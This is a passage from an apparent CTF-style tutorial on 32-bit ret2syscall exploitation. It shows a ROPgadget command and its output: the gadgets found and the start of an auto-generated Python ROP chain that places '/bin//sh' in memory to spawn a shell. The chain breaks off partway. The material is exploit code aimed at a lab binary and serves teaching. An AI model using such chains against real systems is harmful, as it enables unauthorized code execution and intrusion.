 So here come the next question, "How to do a ret2syscall in 32-bit?", the answer- simple just run this

```
ROPgadget --binary vuln --ropchain
```

What it does is simply build us a ropchain that will give us a shell - sometimes we can't use this and need to write it manually (I publish a ret2syscall challenge in my [Challenge-Archive](https://github.com/Kiinzu/Challenge-Archive) repo, you can try the manual here.)

The `--ropchain` result:
```python
ROP chain generation
===========================================================

- Step 1 -- Write-what-where gadgets

	[+] Gadget found: 0x80590f2 mov dword ptr [edx], eax ; ret
	[+] Gadget found: 0x80583b9 pop edx ; pop ebx ; ret
	[+] Gadget found: 0x80b073a pop eax ; ret
	[+] Gadget found: 0x804fb80 xor eax, eax ; ret

- Step 2 -- Init syscall number gadgets

	[+] Gadget found: 0x804fb80 xor eax, eax ; ret
	[+] Gadget found: 0x808054e inc eax ; ret

- Step 3 -- Init syscall arguments gadgets

	[+] Gadget found: 0x8049022 pop ebx ; ret
	[+] Gadget found: 0x8049e29 pop ecx ; ret
	[+] Gadget found: 0x80583b9 pop edx ; pop ebx ; ret

- Step 4 -- Syscall gadget

	[+] Gadget found: 0x804a3c2 int 0x80

- Step 5 -- Build the ROP chain

#!/usr/bin/env python3
# execve generated by ROPgadget

from struct import pack

# Padding goes here
p = b''

p += pack('<I', 0x080583b9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5060) # @ .data
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x080b073a) # pop eax ; ret
p += b'/bin'
p += pack('<I', 0x080590f2) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080583b9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5064) # @ .data + 4
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x080b073a) # pop eax ; ret
p += b'//sh'
p += pack('<I', 0x080590f2) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080583b9) # pop edx ; pop ebx ; ret
p += pack('<I', 0x080e5068) # @ .data + 8
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x0804fb80) # xor eax, eax ; ret
p += pack('<I', 0x080590f2) # mov dword ptr [edx], eax ; ret
```